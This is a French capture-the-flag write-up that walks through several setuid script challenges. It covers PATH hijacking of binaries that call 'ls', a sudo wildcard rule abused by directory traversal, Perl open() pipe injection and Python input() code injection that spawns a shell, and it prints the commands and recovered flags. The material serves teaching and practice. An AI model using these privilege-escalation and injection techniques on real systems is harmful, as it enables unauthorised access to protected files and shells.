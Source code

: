 # Challenger app script

## 1. Bash - System 1

Liste des caractéristiques du challenge:

- L'écriture est autorisée uniquement sur les dossiers /tmp et /var/tmp
- L'exécutable présente des droits spécifique permettant d'interagir avec le fichier cible;
- Ni le code source ou l'exécutable ne peut être modifiée;
- La source du programme présente une seule fonction main en entre faisant appel à une function basse niveau qui permet l'exécution de command Bash et retourne le code status;
- La fonction appelle est ls sur un fichier écrite en dur.

Exploit:

Le progamme fait un appel system dont la commande ls est une command relative au $PATH.

```c
[...]
system("ls /challenge/app-script/ch11/.passwd");
[...]
```

Donc nous pouvons injecter une autre commande par le l'Environnement variable $PATH. En prenant soin de retirer les commandes dans le /bin pour éviter tout conflit avec notre commande créé dans le /var/tmp

```shell
$ cat /bin/cat > /var/tmp/ls
$ export PATH=/var/tmp
$ ./ch11
!oPe96a/.s8d5
```

## 2. sudo - faiblesse de configuration

Liste des caractéristiques du challenge:

- Le dossier /challenge/app-script/ch1 cracked appartient à un utilisateur spécifique ainsi qu'un groupe sous le même nom;
- Les listes de permissions autorisent pour l'utilisateur app-script-ch1 d'utiliser le UID app-script-ch1-cracked à partir du dossier /challenge/app-script/ch1.

```bash
$ ls -laR
.:
total 20
dr-xr-x---  4 app-script-ch1-cracked app-script-ch1         4096 mai   25  2015 .
drwxr-xr-x 17 root                   root                   4096 mars  17 09:30 ..
dr-xr-x--x  2 app-script-ch1         app-script-ch1         4096 janv.  8  2015 ch1
dr-xr-x--x  2 app-script-ch1-cracked app-script-ch1-cracked 4096 mai   25  2015 ch1cracked
-rw-r-----  1 app-script-ch1         app-script-ch1          217 mai   25  2015 readme.md

./ch1:
total 12
dr-xr-x--x 2 app-script-ch1         app-script-ch1 4096 janv.  8  2015 .
dr-xr-x--- 4 app-script-ch1-cracked app-script-ch1 4096 mai   25  2015 ..
-rw-r----- 1 app-script-ch1         app-script-ch1   92 janv.  8  2015 shared_notes
ls: cannot open directory ./ch1cracked: Permission denied
$ sudo -l
[...]
User app-script-ch1 may run the following commands on challenge02:
    (app-script-ch1-cracked) /bin/cat /challenge/app-script/ch1/ch1/*
```

On peut ainsi par un directory traversal récupérer le fichier .passwd.

```shell
$ sudo -u app-script-ch1-cracked /bin/cat /challenge/app-script/ch1/ch1/../ch1cracked/.passwd
b3_c4r3full_w1th_sud0
```

## 3. Bash - Système 2

De la même manière que le défi `Bash - Système 1`, la commande système passée est un `ls -lA`. On créé donc un dossier `/my_ls` dans le répertoire `/tmp` avec un fichier nommé `ls`. Enfin, on donne à ce fichier la commande pour venir lire le fichier passwd et on remplace le path afin que le programme `ch12` appelle notre `ls`.

```shell
# Ici, on créé le dossier contenant notre ls
app-script-ch12@challenge02:~$ cd /tmp
app-script-ch12@challenge02:/tmp$ mkdir lawyim_n && cd lawyim_n
app-script-ch12@challenge02:/tmp/lawyim_n$ touch ls
# On lui donne comme commande un `cat` du fichier `.passwd`
app-script-ch12@challenge02:/tmp/lawyim_n$ echo "/bin/cat /challenge/app-script/ch12/.passwd" > ls
app-script-ch12@challenge02:/tmp/lawyim_n$ ./ls
-bash: ./ls: Permission denied
# Il faut aussi lui donner les droits d'execution !
app-script-ch12@challenge02:/tmp/lawyim_n$ chmod +x ./ls
app-script-ch12@challenge02:/tmp/lawyim_n$ cd ~
# On change le path pour que notre ls soit appelé
app-script-ch12@challenge02:~$ export PATH=/tmp/lawyim_n
# On récupère le flag ! 
app-script-ch12@challenge02:~$ ./ch12
8a95eDS/*e_T#
```

## 4. Perl - Command injection

Le stdin est l'une des portes d'entre du programme atteignant uniquement un "open". Avec certaine recherche cette fonction semple portait une vulnérabilité d'injection de commande avec l'opérateur tuyau.

```shell
app-script-ch7@challenge02:~$ ./setuid-wrapper
*************************
* Stat File Service    *
*************************
>>> | cat .passwd
~~~ Statistics for "| cat .passwd" ~~~
Lines: 0
Words: 0
Chars: 0
PerlCanDoBetterThanYouThink
>>>
```

## 6. Python - input()

Ici le programme C est codé en dur ainsi il n'y a aucune possibilité d'exploitation. En revanche le fichier python présente un appel "input" qui lui est connu comme vulnérable car il évalue le code contenu dans le string puis renvois ça valeur.

```shell
app-script-ch6@challenge02:~$ ./setuid-wrapper
Please enter password : __import__("os").system("sh")
$ cat .passwd
13373439872909134298363103573901
```
